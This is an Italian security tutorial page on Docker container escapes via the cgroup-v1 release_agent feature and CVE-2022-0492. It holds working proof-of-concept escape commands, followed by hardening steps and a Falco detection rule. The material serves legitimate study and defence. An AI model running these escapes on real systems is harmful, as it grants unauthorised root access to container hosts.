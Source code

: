 # Docker release_agent cgroups escape

{{#include ../../../../banners/hacktricks-training.md}}

**Per ulteriori dettagli, fare riferimento al** [**post originale del blog**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** Questo è solo un riassunto:

---

## PoC classica (2019)
```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
Il PoC sfrutta la funzionalità **cgroup-v1** `release_agent`: quando l'ultimo task di un cgroup che ha `notify_on_release=1` termina, il kernel (negli **spazi dei nomi iniziali sull'host**) esegue il programma il cui pathname è memorizzato nel file scrivibile `release_agent`. Poiché tale esecuzione avviene con **privilegi di root completi sull'host**, ottenere accesso in scrittura al file è sufficiente per un'uscita dal container.

### Breve guida leggibile

1. **Preparare un nuovo cgroup**

```shell
mkdir /tmp/cgrp
mount -t cgroup -o rdma cgroup /tmp/cgrp   # o –o memory
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
```

2. **Puntare `release_agent` a uno script controllato dall'attaccante sull'host**

```shell
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

3. **Rilasciare il payload**

```shell
cat <<'EOF' > /cmd
#!/bin/sh
ps aux > "$host_path/output"
EOF
chmod +x /cmd
```

4. **Attivare il notifier**

```shell
sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"   # aggiungiamo noi stessi e usciamo immediatamente
cat /output                                  # ora contiene i processi dell'host
```

---

## Vulnerabilità del kernel 2022 – CVE-2022-0492

Nel febbraio 2022 Yiqi Sun e Kevin Wang hanno scoperto che **il kernel non verificava *le* capacità quando un processo scriveva in `release_agent` in cgroup-v1** (funzione `cgroup_release_agent_write`).

Effettivamente **qualsiasi processo che poteva montare una gerarchia cgroup (ad es. tramite `unshare -UrC`) poteva scrivere un percorso arbitrario in `release_agent` senza `CAP_SYS_ADMIN` nello *spazio dei nomi* utente *iniziale***. Su un container Docker/Kubernetes in esecuzione come root e configurato di default, questo ha permesso:

* escalation dei privilegi a root sull'host; ↗
* uscita dal container senza che il container fosse privilegiato.

Il difetto è stato assegnato **CVE-2022-0492** (CVSS 7.8 / Alto) e corretto nelle seguenti versioni del kernel (e tutte le successive):

* 5.16.2, 5.15.17, 5.10.93, 5.4.176, 4.19.228, 4.14.265, 4.9.299.

Commit di patch: `1e85af15da28 "cgroup: Fix permission checking"`.

### Exploit minimo all'interno di un container
```bash
# prerequisites: container is run as root, no seccomp/AppArmor profile, cgroup-v1 rw inside
apk add --no-cache util-linux  # provides unshare
unshare -UrCm sh -c '
mkdir /tmp/c; mount -t cgroup -o memory none /tmp/c;
echo 1 > /tmp/c/notify_on_release;
echo /proc/self/exe > /tmp/c/release_agent;     # will exec /bin/busybox from host
(sleep 1; echo 0 > /tmp/c/cgroup.procs) &
while true; do sleep 1; done
'
```
Se il kernel è vulnerabile, il binario busybox dal *host* viene eseguito con pieno accesso root.

### Indurimento e mitigazioni

* **Aggiorna il kernel** (≥ versioni superiori). Il patch ora richiede `CAP_SYS_ADMIN` nel *namespace* utente *iniziale* per scrivere su `release_agent`.
* **Preferisci cgroup-v2** – la gerarchia unificata **ha rimosso completamente la funzionalità `release_agent`**, eliminando questa classe di escape.
* **Disabilita i namespace utente non privilegiati** su host che non ne hanno bisogno:
```shell
sysctl -w kernel.unprivileged_userns_clone=0
```
* **Controllo di accesso obbligatorio**: le politiche AppArmor/SELinux che negano `mount`, `openat` su `/sys/fs/cgroup/**/release_agent`, o rimuovono `CAP_SYS_ADMIN`, fermano la tecnica anche su kernel vulnerabili.
* **Maschera di bind in sola lettura** per tutti i file `release_agent` (esempio di script Palo Alto):
```shell
for f in $(find /sys/fs/cgroup -name release_agent); do
mount --bind -o ro /dev/null "$f"
done
```

## Rilevamento in tempo reale

[`Falco`](https://falco.org/) include una regola integrata dalla v0.32:
```yaml
- rule: Detect release_agent File Container Escapes
desc: Detect an attempt to exploit a container escape using release_agent
condition: open_write and container and fd.name endswith release_agent and
(user.uid=0 or thread.cap_effective contains CAP_DAC_OVERRIDE) and
thread.cap_effective contains CAP_SYS_ADMIN
output: "Potential release_agent container escape (file=%fd.name user=%user.name cap=%thread.cap_effective)"
priority: CRITICAL
tags: [container, privilege_escalation]
```
La regola si attiva su qualsiasi tentativo di scrittura a `*/release_agent` da un processo all'interno di un contenitore che detiene ancora `CAP_SYS_ADMIN`.

## Riferimenti

* [Unit 42 – CVE-2022-0492: container escape via cgroups](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/) – analisi dettagliata e script di mitigazione.
* [Sysdig Falco rule & detection guide](https://sysdig.com/blog/detecting-mitigating-cve-2022-0492-sysdig/)

{{#include ../../../../banners/hacktricks-training.md}}
